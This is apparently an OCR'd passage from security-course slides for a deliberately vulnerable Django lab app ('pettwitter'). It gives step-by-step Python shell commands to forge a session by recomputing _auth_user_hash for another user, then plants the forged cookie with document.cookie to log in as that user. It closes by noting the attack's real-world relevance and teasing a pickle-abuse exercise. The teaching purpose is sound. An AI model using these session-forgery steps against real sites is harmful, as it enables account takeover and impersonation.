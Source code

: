{
    '_auth_user_id': '4',
    '_auth_user_backend': 'django.contrib.auth.backends.ModelBackend',
    '_auth_user_hash': '64afb0fb3f941f61b1c7c87f6de7988a2b1261da'
}
```

---

### Implementation notes (4/6)

* _auth_user_hash is constructed from the hashed value stored in the password field in the database
* Now, where did we see that value again?

Note:

- If you're not sure where we saw that value, click around in the admin a bit...

---

### Implementation notes (5/6)

Now, modify the data:

```
>>> session_data['_auth_user_id'] = THE_USER_ID_YOU_WANT_TO_BECOME
>>> key_salt = "django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash"
>>> hashed_password = HASHED_PASSWORD_OF_USER_YOU_WANT_TO_BECOME
>>> new_session_auth_hash = salted_hmac(key_salt, hashed_password).hexdigest()
>>> session_data['_auth_user_hash'] = new_session_auth_hash
>>> session_data.save()
```

And extract something you can put into your browser:

```
>>> print(session_data.session_key)
'new:thing'
```

---
### Implementation notes (6/6)

* Now let's transfer that cookie into your browser.
* Open an _Incognito Window_ or _Private Window_, and visit your group's _pettwitter_ instance.
* In the browser's Javascript console, input: ```document.cookie='sessionid=new:thing'```
* Now reload the homepage -- are you logged in? As whom?

---

## Did that seem...contrived?

* You're probably thinking: "What idiot would override the UserAdmin like that?"
* And you're partly right. This exploit was a _lot_ easier to accomplish prior to 1.7 when _auth_user_hash was added
* BUT - dumps of user databases happen all the time, and if you also happened to have exposed your SECRET_KEY,
 an attacker could login as any user if you're using signed cookies.

---

## Abuse pickle storage
### Overview (extra credit)

This app uses pickle! Look at the settings file.
```